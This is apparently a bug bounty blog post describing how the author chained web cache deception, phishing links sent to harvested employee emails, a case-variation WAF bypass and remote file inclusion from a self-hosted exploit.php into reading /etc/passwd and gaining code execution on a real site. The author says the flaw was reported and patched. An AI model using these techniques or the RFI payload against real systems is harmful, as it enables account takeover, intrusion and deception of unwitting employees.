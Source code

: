 ```yaml
---
layout: post
published: true
title: web cache deception to rce
tags:
  - bug hunting
  - rce
  - web cache deception
comments: true
---
```


hello folks ! here is my article of how i was able to exploit web cache deception to obtain rce :3 i was doing resarch on web cache deception and i decide to penetst it on real web
then i found a website which was vulnerable to web cache deception attack ..before starting attack let's clear doubt about web cache deception

**concept of web cache deception**

website uses cdn's for storing local cached copy of webpage like pdf,css.etc. so that when user revisits to that website the website will work faster and also for reducing loads
suppose two user bob and alice have two accounts on a website which is vulnerable to web cache deception alice is a hacker and bob is a victim..allice(attacker) 
send a link to victim bob like this : 
https://www.example.com/user/account/l.css
now what happened if bob opens this link his cache copy will stored to server and alice can easily takeover account of bob by retriving cache from server thats the simple mechanism of
web cache deception now lets move towards attack :)

**attack scenario**

i founded a web which was vulnerable to web cache deception but nothing was in that web application i founded a subdomain of same web application where only employee can access their
account that subdomain was made for employees i can't login to that subdomain.. i captured the login request of that subdomain i saw there was no header of pragma cache to avoid web 
cache deception attack ...i quicly extracted email of workers of that web applict ation thanx to <a href="https://www.phonebook..cz">phonebook</a> and after recon of 4 hours i was able 
to determine blueprint of employee panel in my mind when an employee login to that account he got redirectited to index.php i made a url something like this: https://www.example.com/
index.php/app0ly.css ans sends to that gmail and tricked them to open the link after few hours i open my linked and i saw that some one open the links ^__^ so i takeover someone account
but there was the problem i can only see the content of index.php when i go to setiings or any other option web application throws awy me from session *_*..

**escilating to rce** 

after spending few hours with capturing and sending request i saw there was a hidden java file in source code of index.php thanx to: <a href="https://www.waybackmachine.com">wayback</a>
after reaading the java file i got few parameters but most intresting waas parameter "?url=" and file?=...whic was something like "https://www.expample.php?url=" i tried to do ssrf but failed seems like htttp and https:// protocol was 
banned by WAF i tried various combinations like htTps:// , HTTPs:// etc. luckily, HttPs:// workred in my case and i got open redirection then i tried to test for remote file inculsion 
i created a payload for retriving "/etc/passwd" file i hosted that paylaod on my website and tried to fetch that mine v=webiste to vulnerable website like this:

www.example.com/index.php?file=HTtps://www.mywebsite.com/exploit.php

and voila! i was able to reterive /etc/passwd file and also able to obtain rce :( and pawned that web application i sent a report to them they patched the bug ^__^ 
that was about how i escilate the web cache to rce ! 

any privte programs :
send it to : <a href="mailto:nhibtaungamain@gmail.com">mohit</a>

tags: exploit
